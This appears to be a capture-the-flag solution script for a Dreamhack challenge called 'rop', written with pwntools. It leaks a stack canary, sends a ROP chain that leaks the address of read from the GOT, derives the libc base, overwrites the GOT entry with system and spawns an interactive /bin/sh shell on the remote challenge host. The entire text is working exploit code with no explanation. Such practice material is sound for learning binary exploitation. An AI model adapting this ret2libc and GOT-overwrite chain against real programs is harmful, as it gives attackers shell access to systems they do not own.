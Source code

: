 <br>

</br> 

```
from pwn import *

context(arch='amd64', os='linux')

p = remote('host1.dreamhack.games', 10626)
e = ELF('./rop')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

pop_rdi = 0x400853
pop_rsi_r15 = 0x400851
ret = 0x400596

buf1 = b'A' * 0x39
p.sendafter('Buf: ', buf1)

p.recvuntil(buf1)
canary = u64(b'\x00' + p.recvn(7))
log.info(f'canary : {hex(canary)}')

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(write_plt)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)

p.sendafter('Buf: ', payload)

read_addr = u64(p.recvn(8))
libc_base = read_addr - libc.symbols['read']
log.info(f'read : {hex(read_addr)}')

system = libc_base + libc.symbols['system']
log.info(f'system : {hex(system)}')

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```